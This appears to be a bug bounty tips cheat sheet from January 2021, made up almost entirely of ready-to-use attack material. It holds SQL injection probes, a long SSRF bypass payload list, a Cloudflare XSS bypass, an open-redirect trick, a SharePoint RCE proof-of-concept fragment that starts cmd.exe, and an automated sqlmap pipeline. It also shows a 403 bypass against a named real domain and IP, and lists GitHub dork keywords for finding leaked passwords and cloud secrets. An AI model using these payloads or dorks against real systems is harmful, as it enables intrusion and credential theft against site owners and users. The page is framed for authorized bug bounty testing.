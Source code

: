 # Bug Bounty Tips - January 2021

## This is how to find sql-Injection 100% of the time
```sql
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

## Burpsuite Auto Repeater match regex
```text
https?:\/\/(www\.)?[-a-zA-Z0–9@:%._\+~#=]{1,256}\.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%_\+.~#?&//=]*)
```
replace with your domain or burp Collaborator link in `request header` or `request param value`

## SQL Server Hacking with LAB
***https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/***
***https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/***
***https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/***
***https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/***

## SSRF Bypass Payload
```text
Basic 
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
Bypass using HTTPS
https://127.0.0.1/
https://localhost/
Bypass localhost with [::]
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/ 
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/
http://0xd8.0x3a.0xd6.0xe3
http://0xd83ad6e3
http://0xd8.0x3ad6e3
http://0xd8.0x3a.0xd6e3
http://0330.072.0326.0343
http://000330.0000072.0000326.00000343
http://033016553343
http://3627734755
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
http://216.0x3a.00000000326.0xe3
http://localtest.me
http://newyork.localtest.me
http://mysite.localtest.me
http://redirecttest.localtest.me
http://sub1.sub2.sub3.localtest.me
http://bugbounty.dod.network
http://spoofed.burpcollaborator.net
```

## Bug Bounty Tips 
1. https://site.com/admin/sign_up  ---- 403 Forbidden
2. http://site.com resolves to IP: 1.2.3.4
3. https://1.2.3.4/admin/sign_up  ----  200 OK
4. Signed up there with having all the admin privileges.
Since Oppo is now a public program on **HackerOne**, please check out the following domain.
-> https://pre-partner.realme.com -- 403 Forbidden
-> It resolves to IP: 13.127.121.140
-> https://13.127.121.140  --- 200 OK
***Really a good tip kudos to [umsvisha](https://twitter.com/umsvishal)***

## CVE-2020-0646 SharePoint RCE

PoC
```text
CallExternalMethodActivity x:Name="foo" 
....System.Diagnostics.Process.Start("cmd.exe",
```
![img](https://pbs.twimg.com/media/Eq8wSJkVgAAvRJq?format=png&name=medium)
**Google Dork**
```text
.sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec
```
***https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ***

## Redirect bypass
```text
/?ref_url=https://abc.com\attack.com/../../../
```
***https://twitter.com/jae_hak99/status/1345210080422072321?s=20***

## 🚨 New CloudFlare XSS Bypass! 🚨
```text
<svg onload=alert%26%230000000040"1")>
```

## 💉 SQLINJECTION ONELINE 💉
```sh
findomain -t https://t.co/SCNfLzBcWO -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1
```
***https://github.com/KingOfBugbounty/KingOfBugBountyTips***

## Github Dorks Search Keywords
```text
Jenkins
OTP
oauth
authoriztion
password
pwd
ftp
dotfiles
JDBC
key-keys
send_key-keys
send,key-keys
token
user
login-singin
passkey-passkeys
pass
secret
SecretAccessKey
app_AWS_SECRET_ACCESS_KEY AWS_SECRET_ACCESS_KEY
credentials
config
security_credentials
connectionstring
ssh2_auth_password
DB_PASSWORD
password
passwd
pwd
secret
private
Ldap
secret_key
secretkey
secret api
secret token
secret pass
secret password
aws secret
client secret
```

### Bash Keyword
```text
language:bash password
language:bash pwd
language:bash ftp
language:bash dotfiles
language:bash JDBC
language:bash key-keys
language:bash send_key-keys
language:bash send,key-keys
language:bash token
language:bash user
language:bash login-singin
language:bash passkey-passkeys
language:bash pass
language:bash secret
language:bash credentials
language:bash config
language:bash security_credentials
language:bash connectionstring
language:bash ssh2_auth_password
```

### Python keywords
```text
language:python password
language:python pwd
language:python ftp
language:python dotfiles
language:python JDBC
language:python key-keys
language:python send_key-keys
language:python send,key-keys
language:python token
language:python user
language:python login-singin
language:python passkey-passkeys
language:python pass
language:python secret
language:python credentials
language:python config
language:python security_credentials
language:python connectionstring
language:python ssh2_auth_password
```
***Example :***`“bugcrowd.com” password language:bash`
**Source:-** 
***https://orwaatyat.medium.com/your-full-map-to-github-recon-and-leaks-exposure-860c37ca2c82***




